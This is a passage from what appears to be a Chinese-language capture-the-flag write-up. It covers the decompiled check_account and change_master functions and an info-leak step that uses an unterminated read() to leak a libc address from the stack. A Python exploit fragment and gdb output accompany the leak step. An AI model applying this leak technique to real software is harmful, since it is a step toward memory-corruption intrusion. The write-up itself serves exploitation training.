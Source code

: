 ```c
signed __int64 change_master()
{
  result = check_account();
  if ( (_DWORD)result )
  {
    printf("Set New Master Pass >> ");
    result = read(0, master, 0x10uLL);
  }
  return result;
}

signed __int64 check_account()
{
  printf("Input Account Name >> ");
  read(0, &buf, 0x40uLL);
  if ( !strcmp(account, &buf) )
  {
    if ( master[0] )
    {
      printf("Input Master Pass >> ", &buf);
      read(0, &buf, 0x40uLL);
      if ( !strcmp(master, &buf) )
        result = 1LL;
        
      else
      {
        puts("Wrong Pass...");
        result = 0LL;
      }
    }
    else
      result = 1LL;
  }
  else
  {
    printf("Account '%s' does not exist...\n", &buf);
    result = 0LL;
  }
  v1 = *MK_FP(__FS__, 40LL) ^ v3;
  return result;
}
```

### 渗透
 完成了初步分析之后，我们开始一步步实现渗透，首先从leak libc开始
#### Leak libc
如果想要使用Change master pass功能，首先得通过check_account的验证，check_account使用read接收输入，这意味着输入的字符串不会被'\x00'截断。当输入一个错误的account时，程序会打印输入，通过调试可以构造出合适长度的account来实现libc info leak from stack，这是一种常见了info leak手段。
```python
account = master = "ok"
reg(account, master)
info = leak('9', 'A' * 0x18)
```
```plain
gdb-peda$ x/4gx $rax
0x7ffee72469c0:	0x5858585858585858	0x5858585858585858
0x7ffee72469d0:	0x5858585858585858	0x00007faba5e3e620
gdb-peda$ x 0x00007faba5e3e620
0x7faba5e3e620 <_IO_2_1_stdout_>:	0x00000000fbad2887
```
